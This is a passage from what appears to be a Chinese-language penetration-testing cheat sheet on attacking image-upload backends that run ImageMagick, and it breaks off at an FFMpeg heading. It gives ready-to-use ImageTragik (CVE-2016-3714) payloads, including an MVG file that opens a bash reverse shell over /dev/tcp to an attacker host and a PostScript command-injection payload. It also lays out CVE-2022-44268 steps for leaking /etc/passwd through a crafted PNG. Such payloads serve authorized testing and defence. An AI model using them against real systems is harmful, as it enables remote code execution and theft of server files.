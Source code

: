 ### CVE - ImageMagick

如果后端使用 ImageMagick 来调整/转换用户图片，您可以尝试利用广为人知的漏洞，如 ImageTragik。

#### CVE-2016–3714 - ImageTragik

上传以下内容并带有一个图像扩展名以利用该漏洞（ImageMagick，7.0.1-1）

* ImageTragik 示例 #1

    ```powershell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
    pop graphic-context
    ```

* ImageTragik 示例 #3

    ```powershell
    %!PS
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%id) currentdevice putdeviceprops
    ```

通过使用 `convert` 命令可以触发漏洞。

```ps1
convert shellexec.jpeg whatever.gif
```

#### CVE-2022-44268

CVE-2022-44268 是在 ImageMagick 中发现的信息泄露漏洞。攻击者可以通过制作恶意图像文件来利用此漏洞，当 ImageMagick 处理该文件时，可以从运行易受攻击版本软件的服务器本地文件系统中泄露信息。

* 生成有效载荷

    ```ps1
    apt-get install pngcrush imagemagick exiftool exiv2 -y
    pngcrush -text a "profile" "/etc/passwd" exploit.png
    ```

* 通过上传文件触发漏洞。后端可能会使用类似 `convert pngout.png pngconverted.png` 的东西。
* 下载转换后的图片并使用 `identify -verbose pngconverted.png` 检查其内容。
* 将泄露的数据转换: `python3 -c 'print(bytes.fromhex("HEX_FROM_FILE").decode("utf-8"))'`

更多有效载荷在 `Picture ImageMagick/` 文件夹中。

### CVE - FFMpeg HLS
